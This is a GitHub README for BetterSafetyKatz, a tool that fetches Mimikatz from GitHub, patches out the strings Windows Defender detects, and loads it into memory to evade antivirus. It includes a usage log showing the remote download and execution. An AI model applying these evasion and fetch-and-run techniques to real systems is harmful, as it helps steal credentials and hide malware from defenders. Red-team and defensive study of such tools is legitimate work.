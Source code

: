 Fork for studying Mimikatz loading techniques for AV evasion.

Original ReadMe: 

# BetterSafetyKatz?

This modified fork of SafetyKatz dynamically fetches the latest pre-compiled release of Mimikatz directly from the gentilkiwi GitHub repo, 
runtime patching on detected signatures and uses @subtee's PE Loader to get it into memory.

1. Gets the URL for the latest ZIP / PreCompiled Mimikatz binary directly from GitHub Repo
2. Unzipped in memory, turned into HEX. Then strings/signatures detected by Windows Defender are replaced with random strings of the same size 
    (Used https://github.com/matterpreter/DefenderCheck to gather signatures detected)
3. PE-Loaded into mem using @subtee POC (Added delays between mapping of DLLs-> Functions , Windows Defender thought it was to fast..)

Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9

[@harmj0y](https://twitter.com/harmj0y) is the primary author of the port that this repo is forked from.

BetterSafetyKatz is licensed under the BSD 3-Clause license.

## Usage

    PS D:\Projects\BetterSafetyKatz\BetterSafetyKatz\bin\Debug> .\BetterSafetyKatz.exe                                                      
	
	[+] Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting gentilkiwi -> https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200502/mimikatz_trunk.zip
	[+] Randomizing strings in memory
	[+] Mapping DLL Ptrs into memory, but doing it sloooooowly (10 sec tops)
	[+] Executing loaded Mimikatz PE

	  .#####.   I7HC7OQ4 2.2.0 (x64) #18362 May  2 2020 16:23:51
	 .## ^ ##.  "CY76SIXX8WBAQF6XOOD" - (WMW0I)
	 ## / \ ##  /*** 1JKD5SDQM0EOSP `XGOPX1Y6CK` ( S9NK2HO6@XGOPX1Y6CK.com )
	 ## \ / ##       > http://blog.XGOPX1Y6CK.com/I7HC7OQ4
	 '## v ##'       P26TMNHP22ZGVUF             ( 45F6XVOMFTRJL6BXRNB86A5W )
	  '#####'        > KMPG3ATJL9YDWTE9SYW0Z / D14BS2FKVSL0DZA4VOONS7K   ***/

	I7HC7OQ4 # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	I7HC7OQ4 #


